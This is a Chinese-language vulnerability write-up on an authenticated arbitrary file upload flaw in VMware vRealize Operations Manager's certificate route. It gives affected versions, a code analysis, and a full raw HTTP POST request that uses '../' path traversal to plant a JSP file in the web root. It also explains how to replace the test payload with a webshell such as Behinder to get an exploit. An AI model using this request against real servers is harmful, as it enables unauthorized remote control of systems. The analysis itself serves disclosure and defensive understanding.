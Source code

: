 # 漏洞简述

vRealize 路由中存在一上传功能，由于未对上传做任何安全过滤，导致可在有认证凭证的情况下，实现任意文件上传，获取服务器控制权限。

亲测，上一波漏洞CVE-2021-21975中获取到认证信息，但无法通过web管理端登录的问题，此漏洞可不受其限制，只要认证信息准确，依然能够实现任意文件上传，获取控制权限。

# 影响范围

vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0

cloud_foundation: 4.x 3.x

vRealize_suite_lifecycle_manager: 8.x

限于环境问题，最高测试到vRealize_operations_manager的8.3.0.17501340版本，都是存在该漏洞的，虽然8.3版本开始，通过SSRF漏洞已不能获取到认证信息，但若在能知晓认证信息的情况下，还是能获取到控制权限的。

# 漏洞分析

casa/classes/com/vmware/vcops/casa/appconfig/CertificateController.class位置 存在一路由，这里使用POST方法接收了两个参数name和file

![](images/21.png)

跟进 CertificateService#handleCertificateFile，这里创建了一个File对象，直接使用transferTo函数上传文件，两个参数都可控，没有任何过滤，就出现了任意文件上传漏洞。

![](images/22.png)





# 漏洞复现

POST包：

```java
POST /casa/private/config/slice/ha/certificate HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Authorization: Basic bWFpbnRlbmFuY2VBZG1pbjI6L21UN3dGSFh0VFM3Q2ZDMklQWnc2Mmcv
Te: trailers
Connection: close
Content-Length: 492

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="name"

../../../../../usr/lib/vmware-casa/casa-webapp/webapps/casa/test1.jsp
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="file"; filename=""
Content-Type: image/jpeg

<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<% out.print("this is a friendly test, Please check and repair upload vulnerabilities.");
%>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

网上均是文章一大抄，没有看到一篇放POST包的，文章内容截图一模一样。这里根据分析的代码部分，URL为第一张图中的路由，访问该URL，登录抓包，看到其中熟悉的header头，Authorization字段，在CVE-2021-21975中获取的就是这个东东。亲测默认的admin账号也可以实现效果，格式为admin:password的base64加密。

POST包为常规的文件上传的Content-Type格式，主要有两个核心上传参数name和file。name的value为文件名，file的value为文件内容。

尝试默认上传位置为/storage/vcops/user/conf/ssl/，上传之后无法通过web访问到；就想到在文件名的位置通过../构造切换web可访问的位置。

路径切换的时候，文件并不能保存到操作系统根目录下，但可借助切换到根目录时，无缝衔接切换到根目录下的其他文件夹下，就有了上面POST包中的name参数的value。这样文件上传后的URL为：https://ip:port/casa/test1.jsp，自行更改上传的文件名。



如果上传shell的话，记得也要加上Authorization哈，否则返回401；比如冰蝎：
![](images/23.png)



# poc/exp

此poc需要传入认证信息，格式为user:password格式的base64编码，详情见CVE-2021-21975漏洞获取的认证信息。

更改content中的poc部分为shell，即可实现exp。exp的时候，记得先更改一下脚本中的判断部分，详见脚本中的注释提示。

